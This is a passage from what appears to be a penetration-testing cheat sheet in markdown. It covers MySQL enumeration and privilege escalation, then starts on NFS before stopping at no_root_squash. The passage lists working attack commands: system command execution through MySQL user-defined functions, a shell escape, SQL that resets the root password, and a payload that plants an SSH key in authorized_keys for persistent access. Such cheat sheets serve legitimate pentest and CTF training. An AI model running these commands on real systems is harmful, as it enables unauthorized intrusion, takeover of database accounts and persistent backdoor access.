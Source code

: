 	ss -tulpn

### MYSQL ENUMERATION
[HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-mysql)

	mysql -u root -p

**The `-p` parameter is a bit peculiar because we cannot put a space between the `-p` and the `value`.**

	-pmypassword

Check this [link](https://forums.mysql.com/read.php?10,229253).

### Basic SQL Syntax

	show databases;
	use <database>;
	show tables;
	describe <table_name>;

	select grantee, table_schema, privilege_type FROM schema_privileges; #Exact privileges
	select user,file_priv from mysql.user where user='root'; #File privileges
	select version(); #version
	select @@version(); #version
	select user(); #User
	select database(); #database name

	\\Try to execute code
	select do_system('id');
	\! sh

	\\Try to change MySQL root password
	UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
	UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
	FLUSH PRIVILEGES;
	quit;

- Example of payload

		mysql -u root -pchangethis -e "select exec_cmd('echo YOUR_id_rsa.pub > /var/lib/mysql/.ssh/authorized_keys')"  

### NFS
NFS (Network File System) is a popular distributed file system.

NFS shares are configured in the /etc/exports file. Remote users can mount shares, access, create, modify files.

By default, created files inherit the remote user’s id and group id (as owner and group respectively), even if they don’t exist on the NFS server.

- Show the NFS server’s export list:

		showmount -e <target>

### no_root_squash
`no_root_squash` is an NFS configuration option which turns root squashing off.
